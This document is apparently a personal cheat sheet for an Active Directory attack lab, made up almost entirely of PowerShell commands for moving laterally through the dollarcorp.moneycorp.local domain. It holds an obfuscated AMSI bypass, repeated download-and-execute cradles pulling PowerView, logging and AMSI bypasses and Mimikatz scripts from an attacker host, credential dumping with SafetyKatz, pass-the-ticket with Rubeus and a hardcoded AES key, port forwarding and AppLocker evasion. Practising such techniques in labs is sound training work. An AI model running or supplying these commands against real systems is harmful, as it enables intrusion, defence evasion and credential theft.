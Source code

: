 
> [!NOTE] **NOTE**
> **REVIEW WHAT PRIVILEGES A USER HAS AFTER COMPROMISE** (BloodHound - PowerView)
> 
> ```powershell
>  Find-InterestingDomainACL | ?{$_.identityreferencename -match 'ciadmin'}

```powershell
ls env
```

```powershell
iex (iwr http://172.16.100.48/sbloggingbypass.txt -useb)
```

```powershell
S`eT-It`em ( 'V'+'aR' +  'IA' + (("{1}{0}"-f'1','blE:')+'q2')  + ('uZ'+'x')  ) ( [TYpE](  "{1}{0}"-F'F','rE'  ) )  ;    (    Get-varI`A`BLE  ( ('1Q'+'2U')  +'zX'  )  -VaL  )."A`ss`Embly"."GET`TY`Pe"((  "{6}{3}{1}{4}{2}{0}{5}" -f('Uti'+'l'),'A',('Am'+'si'),(("{0}{1}" -f '.M','an')+'age'+'men'+'t.'),('u'+'to'+("{0}{2}{1}" -f 'ma','.','tion')),'s',(("{1}{0}"-f 't','Sys')+'em')  ) )."g`etf`iElD"(  ( "{0}{2}{1}" -f('a'+'msi'),'d',('I'+("{0}{1}" -f 'ni','tF')+("{1}{0}"-f 'ile','a'))  ),(  "{2}{4}{0}{1}{3}" -f ('S'+'tat'),'i',('Non'+("{1}{0}" -f'ubl','P')+'i'),'c','c,'  ))."sE`T`VaLUE"(  ${n`ULl},${t`RuE} )
```

Review AppLocker settings
```powershell
Get-AppLockerPolicy -Effective | select -ExpandProperty RuleCollections
```

```powershell
iex(iwr 'http://172.16.100.48/PowerView.ps1' -useb)
iex(iwr 'http://172.16.100.48/Invoke-SessionHunter.ps1' -useb)
iex(iwr 'http://172.16.100.48/Find-PSRemotingLocalAdminAccess.ps1' -useb)

iex ((New-Object Net.WebClient).DownloadString('http://172.16.100.48/PowerView.ps1'))
iex ((New-Object Net.WebClient).DownloadString('http://172.16.100.48/Find-PSRemotingLocalAdminAccess.ps1'))
iex ((New-Object Net.WebClient).DownloadString('http://172.16.100.48/Invoke-SessionHunter.ps1'))
```

You must have administrator access to list sessions - netexec equivalent
```powershell
Find-DomainUserLocation
Find-PSRemotingLocalAdminAccess -Domain dollarcorp.moneycorp.local -Verbose

winrs -r:dcorp-mgmt cmd /c "set computername && set username"
$null | winrs -r:dcorp-mgmt "powershell /c Get-Process -IncludeUserName"
```

### Lateral 1 (Local Admin)
Add port forward to machine to forwards to webserver - downloading executable is bad
```powershell
iwr http://172.16.100.48/Loader.exe -OutFile C:\Users\Public\Loader.exe

echo F | xcopy C:\Users\Public\Loader.exe \\dcorp-mgmt\C$\Users\Public\Loader.exe

$null | winrs -r:dcorp-mgmt "netsh interface portproxy add v4tov4 listenport=8080 listenaddress=0.0.0.0 connectport=80 connectaddress=172.16.100.48"
```

Download from local loopback
```powershell
$null | winrs -r:dcorp-mgmt "cmd /c C:\Users\Public\Loader.exe -path http://127.0.0.1:8080/SafetyKatz.exe -args sekurlsa::evasive-keys exit"

$null | winrs -r:dcorp-mgmt powershell -c "iex (iwr http://172.16.100.48/sbloggingbypass.txt -useb);iex (iwr http://172.16.100.48/amsibypass.txt -useb);iex (iwr http://172.16.100.48/Invoke-MimiEx-vault.ps1 -useb);"
```

Note down the `aes256_hmac` and the cleartext credentials 
Use Rubues on attacking machine
```powershell
C:\Users\Public\Loader.exe -path C:\Users\Public\Rubeus.exe -args asktgt /user:svcadmin /aes256:6366243a657a4ea04e406f1abc27f1ada358ccd0138ec5ca2835067719dc7011 /opsec /createnetonly:C:\Windows\System32\cmd.exe /show /ptt
```

This will create a logon type 9 so the new credentials will only be used when accessing domain resources

```powershell
net use A: \\TSCLIENT\Tools

A:\tools\InviShell\RunWithRegistryNonAdmin.bat
```

```powershell
cd C:\Users\Public; Import-Module .\PowerView.ps1, .\PowerHuntShares.psm1, .\Find-PSRemotingLocalAdminAccess.ps1, .\PowerUp.ps1, .\Invoke-SessionHunter.ps1
```

You must have administrator access to list sessions - netexec equivalent
```powershell
Find-DomainUserLocation
Find-PSRemotingLocalAdminAccess -Domain dollarcorp.moneycorp.local -Verbose

winrs -r:dcorp-mgmt cmd /c "set computername && set username"
$null | winrs -r:dcorp-mgmt "powershell /c Get-Process -IncludeUserName"
```
### Lateral 2 (Local Admin + AppLocker)
Review AppLocker settings
```powershell
Get-AppLockerPolicy -Effective | select -ExpandProperty RuleCollections
```

Copy to AppLocker safe folder - can't dot source
```powershell
copy C:\Users\Public\Invoke-MimiEx-keys.ps1 \\dcorp-adminsrv\c$\'Program Files'

copy C:\Users\Public\Invoke-MimiEx-vault.ps1 \\dcorp-adminsrv\c$\'Program Files'

.\Invoke-MimiEx-keys.ps1
.\Invoke-MimiEx-vault.ps1

& 'C:\Program Files\Invoke-MimiEx-keys.ps1'
& 'C:\Program Files\Invoke-MimiEx-vault.ps1'
```

> **Note**: If clear text creds are found, use `runas` to open cmd 
```powershell
runas /user:dcorp\srvadmin /netonly cmd
```

```powershell
A:\tools\InviShell\RunWithRegistryNonAdmin.bat
```

```powershell
Import-Module .\PowerView.ps1, .\PowerHuntShares.psm1, .\Find-PSRemotingLocalAdminAccess.ps1, .\PowerUp.ps1
```

You must have administrator access to list sessions - netexec equivalent
```powershell
Find-DomainUserLocation
Find-PSRemotingLocalAdminAccess -Domain dollarcorp.moneycorp.local -Verbose

winrs -r:dcorp-mgmt cmd /c "set computername && set username"
$null | winrs -r:dcorp-mgmt "powershell /c Get-Process -IncludeUserName"
```